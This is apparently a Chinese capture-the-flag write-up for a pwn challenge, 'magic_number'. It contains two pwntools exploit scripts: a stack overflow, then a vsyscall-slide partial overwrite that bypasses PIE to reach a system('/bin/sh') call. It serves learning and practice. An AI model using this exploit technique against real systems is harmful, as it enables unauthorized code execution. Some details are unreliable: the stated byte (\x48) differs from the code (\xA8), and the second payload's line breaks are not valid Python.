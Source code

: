 # magic_number

### 先看看题目 
首先file一下  
![](./图片/1.png)  
然后查看保护  
![](./图片/2.png)  
emm有PIE。。。应该是莫得动态调试了  

再打开IDA查一波  
![](./图片/3.png)  
看了看main函数，woc这么简单 ~~我那时候把PIE忘了~~  
然后我就写了这个脚本
### 脚本1
```python
#!/usr/bin/python
#coding:utf-8

from pwn import *
context.log_level = 'debug'
io = process('./magic_number')

system_addr = 0x0AA8
payload = cyclic(0x38) + p64(system_addr)

io.sendlineafter("Your Input :",payload)
io.interactive()
```
脑子是个好东西 ~~可惜我没有~~  
### vsyscall利用简介
之后我在看了看保护才想起来有PIE，然后就想起了前几天刚学的vsyscall的滑动绕过  
由于这三个系统调用都是无参数传参，而且地址固定，我们可以用它来绕过PIE，可以把它们就看成是一个ret指令，我们就可以用它不停地“滑”到下一条栈地址。  
### 代码2
```python3
#!/usr/bin/python
#coding:utf-8
from pwn import *
context.log_level = 'debug'
io=process('./magic_number')
#gdb.attach(p)
payload = cyclic(0x38)+p64(0xFFFFFFFFFF600400)
                +p64(0xFFFFFFFFFF600400)+p64(0xFFFFFFFFFF600400)
                +p64(0xFFFFFFFFFF600400)+b'\xA8'
io.sendafter("Your Input :",payload)
io.interactive()

```
#### 注:
1、0xFFFFFFFFFF600400 是 vsyscall 中的 time 函数的地址  
2、\x48 是main函数中执行 system("/bin/sh") 函数的地址的后两位  
3、求群里的师傅们发下pwn另外的wp~~我太菜了做不出来~~
